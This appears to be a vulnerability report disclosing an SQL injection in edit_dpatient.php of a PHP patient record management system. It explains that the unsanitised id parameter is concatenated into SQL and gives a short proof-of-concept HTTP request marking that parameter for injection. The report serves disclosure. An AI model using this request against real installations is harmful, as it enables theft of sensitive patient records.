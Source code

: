 # patient-record-management-system-in-php has sql injection in /edit_dpatient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

/edit_dpatient.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in edit_dpatient.php. The parameters that can be controlled are as follows: $id. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the value of $id parameter is obtained in /edit_dpatient.php , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/bcf9bc0b-710a-43b7-93dd-c43666ad4088)



## POC

```
GET /edit_dpatient.php.php?id=1* HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=apub8ggoc8777fmi1n9sbu6ca1
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)

